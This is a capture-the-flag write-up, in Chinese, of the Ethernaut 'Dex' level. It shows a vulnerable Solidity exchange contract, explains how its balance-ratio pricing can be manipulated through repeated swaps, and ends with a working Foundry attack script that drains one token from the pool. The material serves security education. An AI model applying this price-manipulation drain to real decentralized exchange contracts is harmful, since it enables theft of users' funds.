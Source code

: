 # Ethernaut CTF Writeup

## Level 22 Dex

> 題目: https://ethernaut.openzeppelin.com/level/0xB52C8785168b12b9333122578dcA793B7f4F2762

原始碼:
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "openzeppelin-contracts-08/token/ERC20/IERC20.sol";
import "openzeppelin-contracts-08/token/ERC20/ERC20.sol";
import "openzeppelin-contracts-08/access/Ownable.sol";

contract Dex is Ownable {
    address public token1;
    address public token2;

    constructor() {}

    function setTokens(address _token1, address _token2) public onlyOwner {
        token1 = _token1;
        token2 = _token2;
    }

    function addLiquidity(address token_address, uint256 amount) public onlyOwner {
        IERC20(token_address).transferFrom(msg.sender, address(this), amount);
    }

    function swap(address from, address to, uint256 amount) public {
        require((from == token1 && to == token2) || (from == token2 && to == token1), "Invalid tokens");
        require(IERC20(from).balanceOf(msg.sender) >= amount, "Not enough to swap");
        uint256 swapAmount = getSwapPrice(from, to, amount);
        IERC20(from).transferFrom(msg.sender, address(this), amount);
        IERC20(to).approve(address(this), swapAmount);
        IERC20(to).transferFrom(address(this), msg.sender, swapAmount);
    }

    function getSwapPrice(address from, address to, uint256 amount) public view returns (uint256) {
        return ((amount * IERC20(to).balanceOf(address(this))) / IERC20(from).balanceOf(address(this)));
    }

    function approve(address spender, uint256 amount) public {
        SwappableToken(token1).approve(msg.sender, spender, amount);
        SwappableToken(token2).approve(msg.sender, spender, amount);
    }

    function balanceOf(address token, address account) public view returns (uint256) {
        return IERC20(token).balanceOf(account);
    }
}

contract SwappableToken is ERC20 {
    address private _dex;

    constructor(address dexInstance, string memory name, string memory symbol, uint256 initialSupply)
        ERC20(name, symbol)
    {
        _mint(msg.sender, initialSupply);
        _dex = dexInstance;
    }

    function approve(address owner, address spender, uint256 amount) public {
        require(owner != _dex, "InvalidApprover");
        super._approve(owner, spender, amount);
    }
}
```

過關條件: 

- You will start with 10 tokens of token1 and 10 of token2. The DEX contract starts with 100 of each token.
- hack the basic DEX contract below and steal the funds by price manipulation.

解法：

- 由於 `getSwapPrice` 的計算公式依賴於代幣的餘額比例，攻擊者可藉由少量的 `token1` 及 `token2` 不斷互換，逐步消耗合約中的代幣
    - 10 token1 -> 10 token2: 第一次交換，合約池中代幣數量固定，為預設的交換比例 (1:1)
    - 20 token2 -> 24.44 token1: 由於第一次交換使合約中 token2 變少了，可換回的 token1 數量將會多於攻擊者投入的數量 (20*(110/90))
    - 透過多次重複這個過程，攻擊者可逐步消耗池中的代幣
- 展開
    - 初始狀態 (token1 token2)
        > pool:100 100

    - 10 token1 -> 10 token2
        > pool:110 90

    - 20 token2 -> 20*(110/90)=24.44 token1
        > pool:86 110

    - 24 token1 -> 24*(110/86)=30.69 token2
        > pool:110 80

    - 30 token2 -> 30*(110/80)=41.25 token1
        > pool:69 110

    - 41 token1 -> 41*(110/69)=65.36 token2
        > pool:110 45
    
    - 45 token2 -> 45*(110/45)=110 token1
        > pool 0 90

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "forge-std/Script.sol";
import {Dex} from "../src/level22/Dex.sol";

// export RPC_URL=https://sepolia.optimism.io
// export PKEY=0xabc
// forge script script/level22.s.sol --rpc-url $RPC_URL --private-key $PKEY --tc Attack --broadcast
contract Attack is Script {
    Dex public target;
    function run() public {
        vm.startBroadcast();

        // exploit logic
        target = Dex(0x802480612B99ef37c13588EdCAA5fd9B5b479b07);
        target.approve(address(target), 500);
        address token1 = target.token1();
        address token2 = target.token2();

        target.swap(token1, token2, 10);

        target.swap(token2, token1, 20);

        target.swap(token1, token2, 24);

        target.swap(token2, token1, 30);

        target.swap(token1, token2, 41);

        target.swap(token2, token1, 45);
        
        console.log(target.balanceOf(token1, address(target)));
        console.log(target.balanceOf(token2, address(target)));
        console.log(target.balanceOf(token1, msg.sender));
        console.log(target.balanceOf(token2, msg.sender));


        vm.stopBroadcast();
    }
}
```